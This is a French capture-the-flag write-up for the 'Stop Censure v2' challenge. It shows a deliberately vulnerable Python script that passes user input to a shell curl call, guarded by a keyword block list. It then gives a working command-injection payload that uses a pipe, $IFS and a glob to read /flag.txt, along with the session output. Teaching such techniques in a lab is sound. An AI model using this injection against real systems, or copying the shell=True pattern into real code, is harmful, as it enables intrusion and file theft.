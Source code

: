 ```yaml
---

layout: post  
title: Stop Censure v2  
subtitle: Write-Up pour le NBCTF  
tags: [writeup, injection, command, CTF, Moyen]  
comments: true

---
```


Salut à tous ! Dans ce write-up, je vais vous présenter comment j'ai résolu le challenge **Stop Censure v2** du NoBracket CTF. Ce défi est une suite du précédent challenge **Stop Censure**, mais avec quelques ajustements apportés par les administrateurs pour corriger la faille initiale.

## Premier coup d'œil 👀

Le contexte de ce challenge est simple : les administrateurs ont découvert la faille que nous avions utilisée dans **Stop Censure**, et ils l'ont corrigée en ajoutant une liste de mots bannis. Notre mission est de trouver un moyen de contourner cette nouvelle restriction et d'accéder au flag.

Le flag se trouve dans le fichier `/flag.txt`. Nous devons, comme dans la version précédente, soumettre une URL pour vérifier si le site est censuré ou non. Si nous parvenons à contourner les restrictions, nous pourrons lire le contenu de `/flag.txt` pour obtenir le flag.

## Analyse du fichier `censure_v2.py`

En comparant le fichier fourni avec le précédent script **Stop Censure**, plusieurs modifications ont été faites pour renforcer la sécurité. Voici le code de la version 2 (spoiler : ça va devenir amusant) :

```python
#!/usr/bin/env python3
import subprocess
import re

# Liste des mots et caractères interdits
forbidden = ["cat", "flag.txt", "&", ";", " "]

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction qui teste si un mot interdit est présent dans l'url
def is_forbidden(url):
    for word in forbidden:
        if word in url:
            return True
    return False

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("---------------------------------")
print("~~ Ce site est-il légal ? (v2) ~~")
print("---------------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification si un petit malin essaye de nous attaquer
if is_forbidden(value):
    print("Attaque détectée !")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

### Changements apportés : 🔐

1. **Liste des mots interdits** : Ah, les admins pensaient avoir tout prévu avec leur blacklist : `"cat"`, `"flag.txt"`, `"&"`, `";"`, et même l’espace `" "`. Ces restrictions sont censées rendre les choses difficiles... mais rien n'est impossible 😎.

2. **Vérification stricte** : Si l'URL contient l'un de ces mots bannis, le script déclenche une alerte et interrompt l'exécution. Ça semble être une bonne idée... sur le papier. 😏

## Étape 1 : Recherche d'un contournement 🚧

Face à ces nouvelles restrictions, j'ai commencé à tester différentes méthodes d'injection de commandes. Sachant que certains caractères comme `&` et `;` étaient bannis, j'ai cherché des séparateurs alternatifs pour exécuter des commandes.

J'ai testé différents caractères séparateurs comme `,` ou `|`. À ce stade, j'ai aussi essayé d'envoyer des commandes comme `echo`, et j'ai remarqué que le séparateur `|` fonctionnait. Ça a ouvert une première brèche dans leur "mur" de sécurité. 🚀

## Étape 2 : Test avec `grep` et `$IFS` 💡

Après avoir validé que le séparateur `|` fonctionnait, j'ai essayé de lancer des commandes plus complexes, en particulier en utilisant `grep`. Cependant, avec l'interdiction de l’espace `" "`, il fallait être créatif pour séparer les arguments.

C'est là que **$IFS** (Internal Field Separator) entre en scène. En remplaçant l’espace par cette variable magique, j'ai réussi à contourner cette restriction et à exécuter ma commande. 🎩✨

Voici la commande finale que j'ai utilisée :

```bash
http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
```

## Étape 3 : Résultat et récupération du flag 🎯

Cette commande a fait mouche ! 🎉 Voici ce que j'ai obtenu :

```bash
┌─[lxst@parrot]─[~]
└──╼ $nc node1.nobrackets.fr 21458
---------------------------------
~~ Ce site est-il légal ? (v2) ~~  
---------------------------------  
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
Succès ! Le site est légal et fonctionnel ! Voici ses informations : 

NBCTF{IFS_F0r_th3_W1n!}
```

## Conclusion 🎉

En conclusion, même avec une sécurité renforcée, il est possible de contourner les restrictions avec un peu de créativité. En utilisant des caractères spéciaux comme le séparateur **`|`** et la variable **$IFS**, j'ai pu déjouer le système et accéder au flag caché dans **`/flag.txt`**.

Un grand merci à **Drahoxx** et **ribt** pour ce défi stimulant et amusant ! Il est toujours satisfaisant de voir que, peu importe combien les choses peuvent paraître verrouillées, il y a toujours une solution pour qui sait la chercher. 😎

Flag : **NBCTF{IFS_F0r_th3_W1n!}**
